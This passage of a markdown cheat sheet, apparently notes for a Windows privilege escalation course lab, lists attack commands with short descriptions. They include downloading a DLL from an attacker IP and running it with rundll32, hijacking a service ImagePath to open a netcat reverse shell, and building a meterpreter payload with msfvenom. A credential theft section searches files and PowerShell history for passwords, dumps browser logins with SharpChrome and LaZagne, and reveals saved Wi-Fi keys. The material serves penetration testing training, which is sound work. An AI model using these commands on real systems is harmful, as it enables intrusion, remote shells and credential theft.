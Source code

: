 | `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin` | Checking UAC level |
| `[environment]::OSVersion.Version` | Checking Windows version |
| `cmd /c echo %PATH%` | Reviewing path variable |
| `curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"` | Downloading file with cURL in PowerShell |
| `rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll` | Executing custom dll with rundll32.exe |
| `.\SharpUp.exe audit` | Running SharpUp |
| `icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"` | Checking service permissions with icacls |
| `cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"` | Replace a service binary |
| `wmic service get name,displayname,pathname,startmode \| findstr /i "auto" \| findstr /i /v "c:\windows\\" \| findstr /i /v """` |Searching for unquoted service paths|
| `accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services` |Checking for weak service ACLs in the Registry|
| `Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"` |Changing ImagePath with PowerShell|
| `Get-CimInstance Win32_StartupCommand \| select Name, command, Location, User \| fl` |Check startup programs|
| `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe` |Generating a malicious binary|
| `get-process -Id 3324` |Enumerating a process ID with PowerShell|
| `get-service \| ? {$_.DisplayName -like 'Druva*'}` |Enumerate a running service by name with PowerShell|

#### Credential Theft

| **Command** | **Description** |
| --------------|-------------------|
| `findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml` |Search for files with the phrase "password"|
| `gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' \| Select-String password` |Searching for passwords in Chrome dictionary files|
| `(Get-PSReadLineOption).HistorySavePath` |Confirm PowerShell history save path|
| `gc (Get-PSReadLineOption).HistorySavePath` |Reading PowerShell history file|
| `$credential = Import-Clixml -Path 'C:\scripts\pass.xml'` |Decrypting PowerShell credentials|
| `cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt` |Searching file contents for a string|
| `findstr /si password *.xml *.ini *.txt *.config` |Searching file contents for a string|
| `findstr /spin "password" *.*` |Searching file contents for a string|
| `select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password` |Search file contents with PowerShell|
| `dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*` |Search for file extensions|
| `where /R C:\ *.config` |Search for file extensions|
| `Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore` |Search for file extensions using PowerShell|
| `cmdkey /list` | List saved credentials |
| `.\SharpChrome.exe logins /unprotect` | Retrieve saved Chrome credentials |
| `.\lazagne.exe -h` | View LaZagne help menu |
| `.\lazagne.exe all` | Run all LaZagne modules |
| `Invoke-SessionGopher -Target WINLPE-SRV01` | Running SessionGopher |
| `netsh wlan show profile` | View saved wireless networks |
| `netsh wlan show profile ilfreight_corp key=clear` | Retrieve saved wireless passwords |
